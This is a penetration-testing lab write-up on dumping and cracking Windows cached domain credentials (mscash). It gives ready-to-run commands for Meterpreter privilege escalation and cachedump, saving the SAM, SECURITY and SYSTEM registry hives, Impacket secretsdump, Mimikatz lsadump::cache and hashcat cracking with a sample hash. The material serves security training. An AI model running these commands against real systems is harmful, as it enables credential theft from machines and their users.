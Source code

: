 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code title="attacker@kali" %}
```text
hashdump
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-59-09.png)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-53-09.png)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-56-47.png)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-57-28.png)

### Mimikatz

```text
lsadump::cache
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-32-15.png)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-54-29.png)

Let's try cracking it with hashchat now:

{% code title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-57-55.png)

## Where Are Domain Credentials Cached

This can be seen via regedit \(running with SYSTEM privileges\) in the following key:

```text
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-03-15.png)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-10-00.png)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" caption="" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" caption="" %}

